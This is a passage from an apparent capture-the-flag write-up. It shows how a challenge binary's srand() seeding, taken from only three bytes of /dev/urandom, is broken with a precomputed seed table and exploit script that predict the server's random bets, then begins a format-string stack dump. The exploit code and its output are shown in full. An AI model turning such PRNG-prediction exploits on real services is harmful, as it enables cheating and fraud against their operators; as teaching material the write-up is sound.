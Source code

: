 Although `/dev/urandom` itself is too random to easily predict, `srand()` is only initiated with 3 bytes of input from the device, with the Most Significant Byte being `0`. That's ~16 million possible seeds, which is *big*, but not<sup>1</sup> big enough to prevent us from generating a huge-ass hash table of `rand()` output-to-seed tuples:
```python
from ctypes import CDLL
from pickle import dump
from tqdm import tqdm
glibc = CDLL('./libc-2.23.so')
nums = {}
for i in tqdm(range(0xffffff)):
    glibc.srand(i)
    t = tuple(glibc.rand() for _ in range(3))   # 2 rand()s is statistically sufficient
    t = (t[0], t[2]) # remove the rand() that isn't printed by warmup
    nums[t] = nums.get(t, ())+(i,)
with open('srand_dict.pickle', 'wb') as f: dump(nums, f)
```
`srand_dict.pickle` contains a python `dict` of `{(0th rand(), 2nd rand()): seed}` key-pairs. We can load this dictionary in our main exploit script to accurately predict the random values used by the server:
```python
r, _ = start('\n')
log.info('money (should be 0): %d' % show_money())
randints = [Round(1,1)]
log.info('money (aft round 1): %d' % show_money())
randints.append(Round(1,1))
log.info('money (aft round 2): %d' % (money:=show_money()))
from pickle import load
log.info('LOADING SEED DICT')
with open("srand_dict.pickle", 'rb') as f: seed_dict = load(f)
seeds = seed_dict[tuple(randints)]
assert len(seeds) == 1  # Unlikely but possible
seed = seeds[0]
log.info('seed found! %d' % seed)
# To verify this seed, let's predict the next bet.
from ctypes import CDLL
glibc = CDLL('./libc-2.23.so')
glibc.srand(seed)
for _ in range(2*2): glibc.rand() # run through the already-used seeds
log.info('According to our predictions, %d == %d!' % (Round(1,1), glibc.rand()))
```
It works:
```python
[+] Opening connection to 192.46.228.70 on port 32337: Done
[*] money (should be 0): 0
[*] money (aft round 1): 18446744072129837390
[*] money (aft round 2): 18446744070518320621
[*] LOADING SEED DICT
[*] seed found! 6897926
[*] According to our predictions, 450409924 == 450409924!
```
Now what?
## Format string usage
I started by making a dump (ASLR off here) of the stack to see what we could do:
```c
gef➤  telescope 50
0x00007ffffffedd58│+0x0000: 0x0000000008000d35  →   mov rax, QWORD PTR [rbp-0x18]        ← $rsp
0x00007ffffffedd60│+0x0008: 0x0000008000000000
0x00007ffffffedd68│+0x0010: 0x0000000008403428  →  0x000000006b637566 ("heck"?)
0x00007ffffffedd70│+0x0018: 0x00007ffffffedde0  →  0x00007ffffffede00  →  0x00007ffffffede10  →  0x00000000080011d0  →   push r15
0x00007ffffffedd78│+0x0020: 0x0000000008000b00  →   xor ebp, ebp
0x00007ffffffedd80│+0x0028: 0x00007ffffffedde0  →  0x00007ffffffede00  →  0x00007ffffffede10  →  0x00000000080011d0  →   push r15   ← $rbp
```